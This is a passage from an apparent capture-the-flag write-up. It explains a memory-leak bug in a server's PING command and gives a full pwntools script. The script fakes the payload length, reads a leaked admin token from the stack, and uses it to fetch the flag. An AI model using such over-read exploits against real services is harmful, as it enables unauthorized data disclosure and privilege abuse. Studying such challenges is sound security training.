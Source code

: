 This allows us to read some of the stack of the program! If we look really closely, we can also notice something else: to implement the admin cleanup function, a token is needed. However, the token is taken from our request, but it is taken from the database and it is saved on the stack. Due to the stack layout, right after the `PONG` response there is the admin token that we need to read the flag.

We can finally get the flag with the following script:

```py
#!/usr/bin/env python3

from pwn import *

HOST = "34.146.54.86"
PORT = 10007

exe = ELF("./server_patched")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], env={"LD_LIBRARY_PATH": "."}, **kw)
    elif args.GDB:
        return gdb.debug([exe.path], env={"LD_LIBRARY_PATH": "."}, gdbscript="", **kw)
    else:
        return remote(HOST, PORT, **kw)


def msg(command, length, data, session=b"\x00" * 16, version=1):
    assert len(session) == 16
    return p8(version) + p8(command) + session + p16(length, endian="big") + data


def main():
    global io
    io = conn(level="debug")

    # good luck pwning :)
    data = b"PING"
    io.send(msg(1, 0x400, data))  # ping with fake payload length
    io.recv(8)
    token = io.recv(16)

    io.send(msg(6, 0, b"", session=token))  # get flag

    io.interactive()


if __name__ == "__main__":
    main()

```

